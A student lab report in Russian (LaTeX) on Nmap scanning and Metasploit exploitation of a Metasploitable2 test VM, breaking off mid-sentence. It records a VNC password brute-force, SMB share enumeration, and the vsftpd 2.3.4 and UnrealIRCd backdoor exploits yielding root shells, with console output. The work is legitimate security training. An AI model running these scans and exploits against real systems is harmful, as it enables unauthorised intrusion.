\documentclass[10pt,a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage[russian]{babel}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage{parselines} 
\usepackage{listings}
\lstset{
basicstyle=\small\ttfamily,
columns=flexible,
breaklines=true
}

\author{Дмитрий Баринов}
\title{Отчет по лабораторной работе №2 Nmap + Metasploit}
\begin{document}
\maketitle


\newpage

\section{NMAP}

\subsection{Цель работы}

Научиться пользоваться утлитой nmap.

\subsection{Ход работы}

\subsubsection{Подготовка}

Скачаны дистрибутивы Kali linux и Metasploitable2, развернуты на VmWare Workstation, тип сетевого поделючения - Bridged.


\subsubsection{Поиск активных хостов}

Поиск активных хостов путем ICMP ping. Данный способ может не сработать в реальных условиях, т.к. в большинстве корпоротивных сетей блокируется из соображений безопасности.

\begin{verbatim}
root@kali:~# nmap -sn 192.168.1.*

Starting Nmap 6.47 ( http://nmap.org ) at 2015-06-03 16:08 EDT
Nmap scan report for 192.168.1.1
Host is up (0.00072s latency).
MAC Address: 00:1E:58:8F:1E:02 (D-Link)
Nmap scan report for 192.168.1.100
Host is up (0.0033s latency).
MAC Address: 00:22:B0:4B:41:06 (D-Link)
Nmap scan report for 192.168.1.101
Host is up (0.0015s latency).
MAC Address: 10:C3:7B:E6:04:8D (Asustek Computer)
Nmap scan report for 192.168.1.105
Host is up (0.000098s latency).
MAC Address: 00:0C:29:72:D2:DE (VMware)
Nmap scan report for 192.168.1.109
Host is up (0.000071s latency).
MAC Address: 14:DA:E9:F3:F5:0E (Asustek Computer)
Nmap scan report for 192.168.1.104
Host is up.
Nmap done: 256 IP addresses (6 hosts up) scanned in 2.32 seconds

\end{verbatim}

Итого обнаружено:  

\begin{itemize}
\item 192.168.1.1 - основной роутер, шлюз
\item 192.168.1.100 - wifi - роутер
\item 192.168.1.101 - мой компьютер
\item 192.168.1.105 - Metaspoitable 2
\item 192.168.1.104 - ноутбук
\item 192.168.1.109 - VMware
\end{itemize}

Полученые результаты соответствуют действительности.

\subsubsection{Поиск открытых портов}

Для этих целей будем использовать уязвиную машину Metaspoitable 2.

\begin{verbatim}
root@kali:~# nmap 192.168.1.105

Starting Nmap 6.47 ( http://nmap.org ) at 2015-06-03 13:32 EDT
Nmap scan report for 192.168.1.105
Host is up (0.00013s latency).
Not shown: 977 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
MAC Address: 00:0C:29:72:D2:DE (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.28 seconds

\end{verbatim}

\subsubsection{Определение версии сервисов}

\begin{lstlisting}

root@kali:~# nmap 192.168.1.105 -sV

Starting Nmap 6.47 ( http://nmap.org ) at 2015-06-03 13:36 EDT
Nmap scan report for 192.168.1.105
Host is up (0.00016s latency).
Not shown: 977 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login?
514/tcp  open  tcpwrapped
1099/tcp open  rmiregistry GNU Classpath grmiregistry
1524/tcp open  shell       Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         Unreal ircd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 00:0C:29:72:D2:DE (VMware)
Service Info: Hosts:  metasploitable.localdomain, localhost, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.66 seconds



\end{lstlisting}


\subsubsection{Сохраняем вывод утлиты в Xml}

\begin{lstlisting}

root@kali:~# nmap 192.168.1.105 -sV -oX /home/nmapOutput.txt

Starting Nmap 6.47 ( http://nmap.org ) at 2015-06-03 13:36 EDT
Nmap scan report for 192.168.1.105
Host is up (0.00016s latency).
Not shown: 977 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login?
514/tcp  open  tcpwrapped
1099/tcp open  rmiregistry GNU Classpath grmiregistry
1524/tcp open  shell       Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         Unreal ircd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 00:0C:29:72:D2:DE (VMware)
Service Info: Hosts:  metasploitable.localdomain, localhost, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.66 seconds

\end{lstlisting}

Полученный файл находится в репозитории.

\subsubsection{Изучить файлы nmap-services, nmap-os-db, nmap-service-probes}

Данные файлы находятся в репозитории.


\begin{itemize}
\item {nmap-services}
Представляет собой таблицу в которой содержатся информация о сервисах, типу и номеру порта, и частоте появления.

\item {nmap-os-db}
Содержит информацию о сигнатурах рахличных ОС. 

Пример записи:

\begin{lstlisting}
# 2-Wire 2701HG-G Gateway Software:  5.29.133.27
Fingerprint 2Wire 2701HG-G wireless ADSL modem
Class 2Wire | embedded || WAP
CPE cpe:/h:2wire:2701hg-g
SEQ(SP=7B-85%GCD=1-6%ISR=95-9F%TI=I%II=I%SS=S%TS=A)
OPS(O1=M5B4NNSW0NNNT11%O2=M578NNSW0NNNT11%O3=M280W0NNNT11%O4=M218NNSW0NNNT11%O5=M218NNSW0NNNT11%O6=M109NNSNNT11)
WIN(W1=8000%W2=8000%W3=8000%W4=8000%W5=8000%W6=8000)
ECN(R=Y%DF=Y%T=FA-104%TG=FF%W=8000%O=M5B4NNSW0N%CC=N%Q=)
T1(R=Y%DF=Y%T=FA-104%TG=FF%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=Y%DF=Y%T=FA-104%TG=FF%W=8000%S=O%A=S+%F=AS%O=M109NNSW0NNNT11%RD=0%Q=)
T4(R=N)
T5(R=Y%DF=Y%T=FA-104%TG=FF%W=0%S=Z%A=S+%F=AR%O=%RD=BD1AB510%Q=)
T6(R=N)
T7(R=N)
U1(DF=Y%T=FA-104%TG=FF%IPL=70%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(DFI=Y%T=FA-104%TG=FF%CD=S)
\end{lstlisting}

\item {nmap-service-probes}
Содержит скрипт для определения сервиса, запущенного на данном порте. 

Пример записи:

\begin{lstlisting}
Probe TCP NessusTPv10 q|< NTP/1.0 >\n|
rarity 8
ports 1241
sslports 1241

match http-proxy m|^HTTP/1\.0 400 Bad Request\r\nServer: squid/([\w._+-]+)\r\n| p/Squid/ v/$1/ cpe:/a:squid-cache:squid:$1/

match nessus m|^< NTP/1.0 >\n| p/Nessus Daemon/ i/NTP v1.0/ cpe:/a:tenable:nessus/
match zabbix m|^NOT OK\n$| p/Zabbix Monitoring System/ cpe:/a:zabbix:zabbix/

\end{lstlisting}


\end{itemize}

\subsubsection{Добавление своей сигнатуры}

В качестве сервера была использована утлита netcat:

\begin{verbatim}
root@kali:~# (echo -e "HelloWorld\nVersion 1.2.3.4";) | nc -vv -l -p 5000
\end{verbatim}

Сигнатура: 

\begin{verbatim}
Probe TCP SimpleServer q|Any text|

match simple tcp m|HelloWorld\nVersion ([0-9.]*)|
p/Simple Server/ v/$P(1)/
\end{verbatim}

Из ответа извлекается версия и возвращается в качестве ответа.

\begin{lstlisting}
root@kali:~# nmap 192.168.1.104 -p 5000 -sV

Starting Nmap 6.47 ( http://nmap.org ) at 2015-06-03 14:12 EDT
Nmap scan report for 192.168.1.104
Host is up (0.00018s latency).
PORT     STATE SERVICE      VERSION
5000/tcp open  SimpleServer Simple Server 1.2.3.4
MAC Address: 00:0c:29:94:01:82 (Asustek Computer)

Service detection performed. Please report any incorrect results at 
http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.23 seconds
\end{lstlisting}

\subsubsection{Просканировать виртуальную машину Metasploitable2 используя db nmap из состава metasploit-framework}

Предварительно необходимо включить postgresql и metasploit.

\begin{verbatim}
service postgresql start
service metasplot start
msfconsole
\end{verbatim}

Затем использовать любую команду из перечисленных выше, но вместо nmap использовать db nmap. Все результаты будут занесены в базу данных. Таким образом, db nmap позволяет повторно использовать результаты и экономить большое количество времени.

\subsubsection{Выбрать пять записей из файла nmap-service-probes и описать их работу}

\begin{itemize}



\item 
\begin{lstlisting}
# Minecraft Server List Ping http://mc.kev009.com/Server_List_Ping
Probe TCP minecraft-ping q|\xFE\x01|
rarity 8
ports 25565

# Fields are Protocol version, Software version, motd, current player count, max players
match minecraft m|^\xff\x00.\x00\xa7\x00\x31\x00\x00(.+?)\x00\x00(.+?)\x00\x00(.+?)\x00\x00(.+?)\x00\x00(.+)|s p/Minecraft/ v/$P(2)/ i|Protocol: $P(1), Message: $P(3), Users: $P(4)/$P(5)|
\end{lstlisting}

Отправляется запрос вида:
\begin{verbatim}
\xFE\x01|
\end{verbatim}

Ответ должен быть вида:
\begin{lstlisting}
^\xff\x00.\x00\xa7\x00\x31\x00\x00(.+?)\x00\x00(.+?)\x00\x00(.+?)\x00\x00(.+?)\x00\x00(.+)|s p/Minecraft/ v/$P(2)/ i|Protocol: $P(1), Message: $P(3), Users: $P(4)/$P(5)
\end{lstlisting}

Где, например p4,p5 - текущее количество игроков и максимальное количесвтво игроков.

\item Probe TCP NULL q||

Данная директива используется для тестирования TCP портов.

\item totalwaitms 3000

Данная строка означает, что максимальное время ожидания ответа равняется трем секундам.

\item
\begin{lstlisting}
Probe TCP Socks4 q|\x04\x01\x00\x16\x7f\x00\x00\x01root\x00|
rarity 8
ports 199,1080,1090,1095,1100,1105,1109,3128,6588,6660-6669,8000,8008,8080,8088

match socks4 m|^\0\x5a| i/Connection ok/
match socks4 m|^\0\x5b| i/Connection rejected or failed; connections possibly ok/
match socks4 m|^\0\x5c| i/Connection failed; ident required/
match socks4 m|^\0\x5d| i/Connection failed; username required/

match shell m|^\0Access is denied\n$| p/Windows Services for Unix rsh/ o/Windows/ cpe:/a:microsoft:windows_services_for_unix/ cpe:/o:microsoft:windows/a
\end{lstlisting}

Данная запись описывает возможные ответы на попытку проверить состояние IPv4 сокета.

\end{itemize}

\subsubsection{Выбрать один скрипт из состава Nmap и описать его работу}

Выбран скрипт hadoop-datanode-info.nse - получение информации директории хранения лога на сервисе хранения данных Apache Hadoop.

\begin{lstlisting}
local http = require "http"
local nmap = require "nmap"
local shortport = require "shortport"
local stdnse = require "stdnse"

description = [[
Discovers information such as log directories from an Apache Hadoop DataNode HTTP status page.

Information gathered:
 * Log directory (relative to http://host:port/)

For more information about hadoop, see:
 * http://hadoop.apache.org/
 * http://en.wikipedia.org/wiki/Apache_Hadoop
 * http://wiki.apache.org/hadoop/DataNode
]]

---
-- @usage
-- nmap --script hadoop-datanode-info.nse -p 50075 host
--
-- @output
-- PORT      STATE SERVICE         REASON
-- 50075/tcp open  hadoop-datanode syn-ack
-- | hadoop-datanode-info:
-- |_  Logs: /logs/
--
-- @xmloutput
-- <elem key="Logs">/logs/</elem>


author = "John R. Bond"
license = "Simplified (2-clause) BSD license--See http://nmap.org/svn/docs/licenses/BSD-simplified"
categories = {"default", "discovery", "safe"}


portrule = function(host, port)
  -- Run for the special port number, or for any HTTP-like service that is
  -- not on a usual HTTP port.
  return shortport.port_or_service({50075}, "hadoop-datanode")(host, port)
    or (shortport.service(shortport.LIKELY_HTTP_SERVICES)(host, port) and not shortport.portnumber(shortport.LIKELY_HTTP_PORTS)(host, port))
end

action = function( host, port )

  local result = stdnse.output_table()
  local uri = "/browseDirectory.jsp"
  stdnse.debug1("HTTP GET %s:%s%s", host.targetname or host.ip, port.number, uri)
  local response = http.get( host, port, uri )
  stdnse.debug1("Status %s",response['status-line'] or "No Response")
  if response['status-line'] and response['status-line']:match("200%s+OK") and response['body']  then
    local body = response['body']:gsub("%%","%%%%")
    stdnse.debug2("Body %s\n",body)
    if body:match("([^][\"]+)\">Log") then
      port.version.name = "hadoop-datanode"
      port.version.product = "Apache Hadoop"
      nmap.set_port_version(host, port)
      local logs = body:match("([^][\"]+)\">Log")
      stdnse.debug1("Logs %s",logs)
      result["Logs"] = logs
    end
    return result
  end
end
\end{lstlisting}



\subsection{Выводы}

В ходе данной работы были изучены основные возможности nmap. Определение активных хостов, сканирование портов, определение версий сервисов, дополнение определения версий сервисов, были рассмотрены основные файлы используемые для определения версий сервисов и ОС. В качестве примера - один скрипт для получения директории лога для apache hadoop dataNode. 

Инструмент nmap является мощным и гибким инструментом для сбора информации. При этом, не стоит забывать, что именно сбор информации определяет успех предстоящей атаки.
 
 
\newpage
 
\section{Metasploit}

\subsection{Цель работы}

Изучить основные возможности инструмента для тестирование на уязвимости Metasploit.

\subsection{Ход работы}
 
\subsubsection{Описать последовательность действий для получения доступа к консоли}

Атакующая машина (kali linux) -- 192.168.1.104.
Атакуемая машина (Metasploitable2) -- 192.168.1.105.
\\

Подготовка:

\begin{verbatim}
service postgresql start
service metasploit start
msfconsole
\end{verbatim}

\subsubsection {Подключиться к VNC-серверу, получить доступ к консоли}

Ищем модуль:

\begin{lstlisting}
msf > search vnc

Matching Modules
================

   Name                                               Disclosure Date  Rank     Description
   ----                                               ---------------  ----     -----------
   auxiliary/admin/vnc/realvnc_41_bypass              2006-05-15       normal
      RealVNC NULL Authentication Mode Bypass
   auxiliary/scanner/vnc/vnc_login                                     normal 
     VNC Authentication Scanner
   auxiliary/scanner/vnc/vnc_none_auth                                 normal 
     VNC Authentication None Detection
   auxiliary/server/capture/vnc                                        normal
      Authentication Capture: VNC
      ...                       
\end{lstlisting}


Выбираем модуль, устанавливаем параметры и  запускаем:
\begin{lstlisting}
msf > use auxiliary/scanner/vnc/vnc_login auxiliary/scanner/vnc/vnc_login
msf auxiliary(vnc_login) > set RHOSTs 192.168.1.105
RHOSTs => 192.168.1.105
msf auxiliary(vnc_login) > set RHOSTS 192.168.1.105
RHOSTS => 192.168.1.105
msf auxiliary(vnc_login) > set THREADS 4
THREADS => 4
msf auxiliary(vnc_login) > run

[*] 192.168.1.105:5900 - Starting VNC login sweep
[+] 192.168.1.105:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(vnc_login) > 
\end{lstlisting}


\begin{figure}[h!]
\centering

\includegraphics[scale=0.4]{vnc_login.JPG}
\caption{Работа с модулем vnc\_login}
\end{figure}


\subsubsection{Получить список директорий в общем доступе по протоколу SMB}

Перечислить доступные директории можно при помощи модуля smb\_enumshares.
 
\begin{verbatim}[frame=single]
use auxiliary/scanner/smb/smb_enumshares
\end{verbatim}

Как и в предыдущем случае, для определения целевого хоста и указания количества потоков используются переменные RHOSTS и THREADS соответственно. Результат на рисунке 5. Открыты стандартные ресурсы, видимо используются настройки samba по умолчанию.

\begin{lstlisting}
msf auxiliary(vnc_login) > use auxiliary/scanner/smb/smb_enumshares
msf auxiliary(smb_enumshares) > set RHOSTS 192.168.1.105
RHOSTS => 192.168.1.105
msf auxiliary(smb_enumshares) > set THREADS 4
THREADS => 4
msf auxiliary(smb_enumshares) > run

[+] 192.168.1.105:139 - print$ - (DISK) Printer Drivers
[+] 192.168.1.105:139 - tmp - (DISK) oh noes!
[+] 192.168.1.105:139 - opt - (DISK) 
[+] 192.168.1.105:139 - IPC$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[+] 192.168.1.105:139 - ADMIN$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

\end{lstlisting}

\subsubsection{Получить консоль используя уязвимость в vsftpd}

Для vsFTPd версии 2.3.4, входящего в состав Metasploitable2, уже есть готовый экспоит.

Для начала, его нужно загрузить

\begin{verbatim}
use exploit/unix/ftp/vsftpd_234_backdoor
\end{verbatim}

Кроме этого, эксплоит использует набор команд, которые помещены в отдельный файл и их необходимо передать через переменню PAYLOAD. Файл находится по пути cdm/unix/interact, это можно определить используя команду

\begin{verbatim}
show payloads
\end{verbatim}

В RHOST записывается доменное имя или IP адрес целевой машины. Запускатся эксплоит командой exploit.

В результатае работы эксплоита, на целевой машине можно получить root-доступ.

\begin{lstlisting}
[*] 192.168.1.105 - Command shell session 2 closed.  Reason: User exit
msf exploit(vsftpd_234_backdoor) > exploit

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 3 opened (192.168.1.104:34164 -> 192.168.1.105:6200) at 2015-06-03 17:33:24 -0400

uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

\end{lstlisting}

\subsubsection{Получить консоль используя уязвимость в irc}

Для решения этой задачи тоже существует эксплоит, называется unreal\_ircd\_3281\_backdoor

\begin{verbatim}
use exploit/unix/irc/unreal_ircd_3281_backdoor
\end{verbatim}

Далее требуется устрановить адрес цели и запустить эксплоит:
\begin{lstlisting}
msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.1.105
RHOST => 192.168.1.105
msf exploit(unreal_ircd_3281_backdoor) > exploit

[*] Started reverse double handler
[*] Connected to 192.168.1.105:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo h7BBZE0elKiDkEDc;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "h7BBZE0elKiDkEDc\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 4 opened (192.168.1.104:4444 -> 192.168.1.105:47466) at 2015-06-03 17:36:26 -0400

uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
\end{lstlisting}

\subsubsection{Armitage Hail Mary}

Hail Mary это модуль, поочерёдно запускающий все эксплоиты, которые могут применены к выбранному хосту.


\begin{figure}[h!]
\centering

\includegraphics[scale=0.4]{Armitage.JPG}
\caption{Результат работы Armitage Hail Mary}
\end{figure}

Результат - получен root доступ.
 
 
\subsubsection{Изучить три файла с исходным кодом эксплойтов или служебных скрип-тов на ruby и описать, что в них происходит} 

Файлы состоят из нескольких частей: заголовка, импортов, объявления используемых параметров.
Файлы находятся по адресу /usr/share/metasploit-framework/modules/

\paragraph{opty2.rb}

\begin{lstlisting}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
require 'msf/core'
require 'rex/nop/opty2'
###
#
# Opty2
# -----
#
# This class implements single-byte NOP generation for X86.  It takes from
# ADMmutate and from spoonfu.
#
###
class Metasploit3 < Msf::Nop

  def initialize
    super(
      'Name'        => 'Opty2',
      'Description' => 'Opty2 multi-byte NOP generator',
      'Author'      => [ 'spoonm', 'optyx' ],
      'License'     => MSF_LICENSE,
      'Arch'        => ARCH_X86)
  end

  def generate_sled(length, opts = {})
    opty = Rex::Nop::Opty2.new(
      opts['BadChars'] || '',
      opts['SaveRegisters'])

    opty.generate_sled(length)
  end

end
\end{lstlisting}

Структура файла: 

\begin{itemize}
\item Зависимые модули, необходимые для работы
\item Класс
\end{itemize}

Данный модуль предназначен для генерации NOP команд для x86 архитектуры.\\
Видимо, данный файл является лишь реализацией маленькой функции и используется  в других модулях.

\paragraph{ipidseq.rb}
\begin{lstlisting}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'
require 'timeout'

class Metasploit3 < Msf::Auxiliary

  include Msf::Exploit::Capture
  include Msf::Auxiliary::Scanner
  include Msf::Auxiliary::Report

  def initialize
    super(
      'Name'        => 'IPID Sequence Scanner',
      'Description' => %q{
        This module will probe hosts' IPID sequences and classify
        them using the same method Nmap uses when it's performing
        its IPID Idle Scan (-sI) and OS Detection (-O).

        Nmap's probes are SYN/ACKs while this module's are SYNs.
        While this does not change the underlying functionality,
        it does change the chance of whether or not the probe
        will be stopped by a firewall.

        Nmap's Idle Scan can use hosts whose IPID sequences are
        classified as "Incremental" or "Broken little-endian incremental".
      },
      'Author'      => 'kris katterjohn',
      'License'     => MSF_LICENSE
    )

    register_options([
      Opt::RPORT(80),
      OptInt.new('TIMEOUT', [true, "The reply read timeout in milliseconds", 500]),
      OptString.new('INTERFACE', [false, 'The name of the interface'])
    ])

    register_advanced_options([
      OptInt.new('SAMPLES', [true, "The IPID sample size", 6])
    ])

    deregister_options('FILTER','PCAPFILE')
  end

  def rport
    datastore['RPORT'].to_i
  end

  def run_host(ip)
    open_pcap

    raise "SAMPLES option must be >= 2" if datastore['SAMPLES'] < 2

    pcap = self.capture

    shost = Rex::Socket.source_address(ip)

    to = (datastore['TIMEOUT'] || 500).to_f / 1000.0

    ipids = []

    pcap.setfilter(getfilter(shost, ip, rport))

    datastore['SAMPLES'].times do
      sport = rand(0xffff - 1025) + 1025

      probe = buildprobe(shost, sport, ip, rport)

      capture_sendto(probe, ip)

      reply = probereply(pcap, to)

      next if not reply

      ipids << reply.ip_id
    end

    close_pcap

    return if ipids.empty?

    print_status("#{ip}'s IPID sequence class: #{analyze(ipids)}")

    #Add Report
    report_note(
      :host	=> ip,
      :proto	=> 'ip',
      :type	=> 'IPID sequence',
      :data	=> "IPID sequence class: #{analyze(ipids)}"
    )
  end

  # Based on Nmap's get_ipid_sequence() in osscan2.cc
  def analyze(ipids)
    allzeros = true
    allsame = true
    mul256 = true
    inc = true

    # ipids.each do |ipid|
    #	print_status("Got IPID ##{ipid}")
    # end

    return "Unknown" if ipids.size < 2

    diffs = []
    i = 1

    while i < ipids.size
      p = ipids[i - 1]
      c = ipids[i]

      if p != 0 or c != 0
        allzeros = false
      end

      if p <= c
        diffs[i - 1] = c - p
      else
        diffs[i - 1] = c - p + 65536
      end

      if ipids.size > 2 and diffs[i - 1] > 20000
        return "Randomized"
      end

      i += 1
    end

    return "All zeros" if allzeros

    diffs.each do |diff|
      if diff > 1000 and ((diff % 256) != 0 or ((diff % 256) == 0 and diff >= 25600))
        return "Random positive increments"
      end

      allsame = false if diff != 0

      mul256 = false if diff > 5120 or (diff % 256) != 0

      inc = false if diff >= 10
    end

    return "Constant" if allsame

    return "Broken little-endian incremental!" if mul256

    return "Incremental!" if inc

    "Unknown"
  end

  def getfilter(shost, dhost, dport)
    "tcp and src host #{dhost} and src port #{dport} and " +
    "dst host #{shost}"
  end

  # This gets set via the usual capture_sendto interface
  def buildprobe(shost, sport, dhost, dport)
    p = PacketFu::TCPPacket.new
    p.ip_saddr = shost
    p.ip_daddr = dhost
    p.tcp_sport = sport
    p.tcp_dport = dport
    p.tcp_flags.syn = 1
    p.recalc
    p
  end

  def probereply(pcap, to)
    reply = nil

    begin
      Timeout.timeout(to) do
        pcap.each do |r|
          pkt = PacketFu::Packet.parse(r)
          next unless pkt.is_tcp?
          next unless pkt.tcp_flags.syn == 1 || pkt.tcp_flags.rst == 1
          reply = pkt
          break
        end
      end
    rescue Timeout::Error
    end

    return reply
  end

end

\end{lstlisting}

Структура данного модуля аналогична, однако, они отличаются размерами. Кроме того, здесь присутсвуют подключаемы файлы:

